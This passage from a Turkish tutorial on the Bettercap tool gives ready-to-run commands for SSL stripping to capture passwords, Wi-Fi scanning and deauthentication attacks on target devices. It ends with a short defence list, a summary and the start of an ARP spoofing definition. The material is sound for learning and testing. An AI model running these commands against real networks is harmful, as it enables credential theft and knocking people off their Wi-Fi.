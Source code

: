 #### 🔹 HTTPS Trafiğini Manipüle Etme (HSTS Bypass)
```bash
https.proxy on
set https.proxy.sslstrip true
```
📌 SSL trafiğini HTTP’ye düşürerek şifreleri ele geçirebilir.

---

## 📌 Kablosuz Ağ Saldırıları

### 🔍 Wi-Fi Ağlarını Tarama
```bash
wifi.recon on
```

### 🔍 Wi-Fi Cihazlarını ve SSID’leri Görme
```bash
wifi.show
```

### 📡 Deauth Saldırısı Yapma
```bash
set wifi.deauth.ap <Hedef_BSSID>
set wifi.deauth.client <Hedef_MAC>
wifi.deauth on
```
📌 Hedef cihazları Wi-Fi’dan düşürmek için kullanılır.

---

## 🔒 Bettercap’e Karşı Savunma
✅ VPN Kullanarak Trafiği Şifreleme  

✅ Static ARP Tabloları Kullanma (ARP Spoofing’i Engellemek için)  

✅ HTTPS Kullanımı ve HSTS Aktif Tutma  

✅ Ağ İzleme Araçları (Wireshark, ARPwatch) ile Şüpheli Trafiği Tespit Etme  

---

## 📌 Özet
✅ Bettercap, siber güvenlik testleri ve MITM saldırıları için güçlü bir araçtır.  

✅ Ağ trafiğini analiz edebilir, değiştirebilir ve yönlendirebilir.  

✅ Kablosuz ağları izleyebilir ve güvenlik testleri yapabilir.  


## 🔍 ARP Spoofing (ARP Poisoning) Nedir?
ARP Spoofing, bir saldırganın Ağ Adres Çözümleme Protokolü (ARP - Address Resolution Protocol) tablolarını manipüle ederek, kendini başka bir cihaz gibi gösterdiği bir Man-in-the-Middle (MITM) saldırısıdır.
